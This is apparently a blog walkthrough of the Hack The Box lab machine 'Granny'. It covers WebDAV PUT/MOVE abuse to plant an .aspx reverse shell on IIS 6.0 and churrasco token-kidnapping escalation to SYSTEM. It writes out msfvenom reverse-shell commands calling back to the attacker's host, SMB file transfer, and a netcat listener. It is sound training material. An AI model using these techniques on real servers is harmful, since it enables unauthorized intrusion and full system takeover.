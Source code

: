 ```yaml
---
id: 3494
title: 'Hackthebox &#8211; Granny'
date: '2022-04-15T10:38:28+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Granny" from Hackthebox.'
layout: post
guid: 'http://vedanttare.com/?p=3494'
permalink: /hackthebox-granny/
powerkit_share_buttons_transient_facebook:
    - '1692134027'
powerkit_share_buttons_transient_pinterest:
    - '1727913649'
image: 'http://vedanttare.com/wp-content/uploads/2022/04/grannt-img-496x279.png'
categories:
    - Writeups
---
```


![](http://vedanttare.com/wp-content/uploads/2022/04/Screenshot-2022-09-25-at-12.04.56-PM.png)

IP: 10.10.10.15, Microsoft IIS httpd 6.0 – Windows server 2003

## Enumeration

We begin by performing a basic nmap scan: `sudo nmap -sC -sV -O -p- -oA nmap/granny 10.10.10.15`

Open ports:

- 80

Our nmap scan showed that there are some WEB DAV methods which we can use such as:  
PUT, MOVE, DELETE, etc.

So to test this, we just simply upload a txt file and check if its getting uploaded.

![](http://vedanttare.com/wp-content/uploads/2022/04/upload-text-file.png)  
And boom!!! txt files can be uploaded to the server.

![](http://vedanttare.com/wp-content/uploads/2022/04/uploaded-txt-file.png)

## Exploitation

So, as we know that we can use PUT method to upload files(txt). Now, lets see if we can upload asp or aspx files as iis server mostly supports those extensions. But, unfortunately we were not able to upload asp or aspx files using PUT method.

Lets run davtest to check which file extensions are allowed to be uploaded.

![](http://vedanttare.com/wp-content/uploads/2022/04/davtest.png)

From the davtest output we can see that we are only able to execute txt and html files on the web server via DAV method(PUT). In this case we need to trick the web server into thinking that it is a txt file only. The web server is allowing us to only upload txt file….this is what its checking for…but we can move the txt file to a .aspx flie…(here the web server does not check anything).

We can see that we have to MOVE method available to us. We can generate a .aspx rev shell and copy the contents in a txt file and then using PUT upload it on the web server. Then, using MOVE method we can move it to a .aspx file.

![](http://vedanttare.com/wp-content/uploads/2022/04/move-method.png)

We can see that the MOVE method is successful:

![](http://vedanttare.com/wp-content/uploads/2022/04/move-success.png)

Using `msfvenom` to generate a reverse shell:

`kali@starscorp1o:~/htb/boxes/granny$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.4 LPORT=5555 -f aspx > shell.aspx<br></br>[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload<br></br>[-] No arch selected, selecting arch: x86 from the payload<br></br>No encoder or badchars specified, outputting raw payload<br></br>Payload size: 341 bytes<br></br>Final size of aspx file: 2808 bytes`

We can see from the burp repeater response tab that the file has been successfully created. Let’s setup a reverse listener on our machine and navigate to the file to get back a connection.

And BOOM!!! We get a low privilege shell.

## Privilege Escalation

Using a KERNEL exploit available for the system:

Just by googling the kernel version like:  
`Windows server 2003 sp2 local privesc`

If it doesn’t work use metasploit(most people have used it, don’t think it works without metasploit). After checking for privileges on the system:

`C:\temp>whoami /priv<br></br>whoami /priv`

## PRIVILEGES INFORMATION

`Privilege Name Description State<br></br>============================= ========================================= ========<br></br>SeAuditPrivilege Generate security audits Disabled<br></br>SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled<br></br>SeAssignPrimaryTokenPrivilege Replace a process level token Disabled<br></br>SeChangeNotifyPrivilege Bypass traverse checking Enabled<br></br>SeImpersonatePrivilege Impersonate a client after authentication Enabled<br></br>SeCreateGlobalPrivilege Create global objects Enabled`

![](http://vedanttare.com/wp-content/uploads/2022/04/whoamipriv.png)

We can see that the SeImpersonatePrivilege is enabled, which is very good for us. This allows us to use a method called **token hijacking.**

Basically, Server 2003 allows for the NETWORK SERVICE and LOCAL SERVICE accounts to impersonate the SYSTEM account, if this privilege is enabled. This presentation gives a great breakdown of it in a more technical sense: https://dl.packetstormsecurity.net/papers/presentations/TokenKidnapping.pdf

So, there is a program called churrasco.exe which will let us escalate privileges. Setting up a smbserver on our kali machine to transfer files as it will be easier:

![](http://vedanttare.com/wp-content/uploads/2022/04/smb-server.png)

`kali@starscorp1o:~/htb/boxes/granny$ sudo impacket-smbserver granny .<br></br>\Impacket v0.9.22.dev1+20200629.145357.5d4ad6cc - Copyright 2020 SecureAuth Corporation`

`[<em>] Config file parsed [</em>] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0<br></br>[<em>] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 [</em>] Config file parsed<br></br>[<em>] Config file parsed [</em>] Config file parsed<br></br>[<em>] Incoming connection (10.10.10.15,1042) [</em>] AUTHENTICATE_MESSAGE (\,GRANNY)<br></br>[<em>] User GRANNY\ authenticated successfully [</em>] :::00::4141414141414141<br></br>[<em>] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY) [</em>] User GRANNY\GRANNY$ authenticated successfully<br></br>[<em>] GRANNY$::HTB:d6c9616bf8ef0bab00000000000000000000000000000000:ba22d6229d766032c4a5079646d337dae216805b60186f8e:4141414141414141 [</em>] Closing down connection (10.10.10.15,1042)<br></br>[<em>] Remaining connections [] [</em>] Incoming connection (10.10.10.15,1044)<br></br>[<em>] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY) [</em>] User GRANNY\GRANNY$ authenticated successfully<br></br>[*] GRANNY$::HTB:7c1efbf67d267f4b00000000000000000000000000000000:196c496c81d0a371427eb3d044cdf914bc3143f9fb57f37d:4141414141414141<br></br>[-] Unknown level for query path info! 0x109`

So, we have setup a smbserver on our kali machine in the granny directory. Now copying the churrasco.exe file on the windows machine:

`C:\temp>copy \10.10.14.4\granny\churrasco.exe<br></br>copy \10.10.14.4\granny\churrasco.exe<br></br>1 file(s) copied.`

![](http://vedanttare.com/wp-content/uploads/2022/04/churrasco.png)

We are able to run commands with this program:

`C:\temp>churrasco.exe whoami<br></br>churrasco.exe whoami<br></br>nt authority\system`

But we can only do that when we run this program, after that the system goes back to nt authority/network service. So, what we can do now is generate a .exe rev shell payload using msfvenom:  
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=9999 -f exe > rev.exe`

We can transfer this using the same methode(smb mode).

![](http://vedanttare.com/wp-content/uploads/2022/04/rev.png)

And, we can setup a listener on our kali machine and run the rev.exe using churrasco.exe on the windows machine:

`C:\temp>churrasco.exe -d "C:\temp\rev.exe"<br></br>churrasco.exe -d "C:\temp\rev.exe"<br></br>/churrasco/-->Current User: NETWORK SERVICE<br></br>/churrasco/-->Getting Rpcss PID …<br></br>/churrasco/-->Found Rpcss PID: 684<br></br>/churrasco/-->Searching for Rpcss threads …<br></br>/churrasco/-->Found Thread: 688<br></br>/churrasco/-->Thread not impersonating, looking for another thread…<br></br>/churrasco/-->Found Thread: 692<br></br>/churrasco/-->Thread not impersonating, looking for another thread…<br></br>/churrasco/-->Found Thread: 700<br></br>/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730<br></br>/churrasco/-->Getting SYSTEM token from Rpcss Service…<br></br>/churrasco/-->Found SYSTEM token 0x728<br></br>/churrasco/-->Running command with SYSTEM Token…<br></br>/churrasco/-->Done, command should have ran as SYSTEM!`

And BOOM!!!! We get root!

`kali@starscorp1o:~/htb/boxes/granny$ sudo nc -nlvp 1234<br></br>listening on [any] 1234 …<br></br>connect to [10.10.14.4] from (UNKNOWN) [10.10.10.15] 1052<br></br>Microsoft Windows [Version 5.2.3790]<br></br>(C) Copyright 1985-2003 Microsoft Corp.`

`C:\WINDOWS\TEMP>dir<br></br>dir<br></br>Volume in drive C has no label.<br></br>Volume Serial Number is 246C-D7FE`

`Directory of C:\WINDOWS\TEMP`

`08/30/2020 09:33 PM .<br></br>08/30/2020 09:33 PM ..<br></br>04/12/2017 10:14 PM rad61C21.tmp<br></br>04/12/2017 10:14 PM radDDF39.tmp<br></br>02/18/2007 03:00 PM 22,752 UPD55.tmp<br></br>12/24/2017 08:24 PM vmware-SYSTEM<br></br>08/30/2020 06:17 PM 10,643 vmware-vmsvc.log<br></br>12/24/2017 08:30 PM 2,294 vmware-vmusr.log<br></br>08/30/2020 06:17 PM 273 vmware-vmvss.log<br></br>4 File(s) 35,962 bytes<br></br>5 Dir(s) 18,142,490,624 bytes free`

`C:\WINDOWS\TEMP>whoami<br></br>whoami<br></br>nt authority\system`

`C:\WINDOWS\TEMP>hostname<br></br>hostname<br></br>granny`

`C:\WINDOWS\TEMP>whoami<br></br>whoami<br></br>nt authority\system`

![](http://vedanttare.com/wp-content/uploads/2022/04/rootedd.png)

We can grab the user flag:

![](http://vedanttare.com/wp-content/uploads/2022/04/user-flag.png)

And, we can grab the root flag as well,

![](http://vedanttare.com/wp-content/uploads/2022/04/root-flagg.png)

Important payloads:

![](http://vedanttare.com/wp-content/uploads/2022/04/imp-payload.png)

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Bastion](https://vedanttare.com/hackthebox-bastion/)

<iframe class="wp-embedded-content" data-secret="0FhH9XZ1ki" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-bastion/embed/#?secret=9O7GWh7sE9#?secret=0FhH9XZ1ki" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Bastion” — VEDANT TARE" width="600"></iframe></div></figure>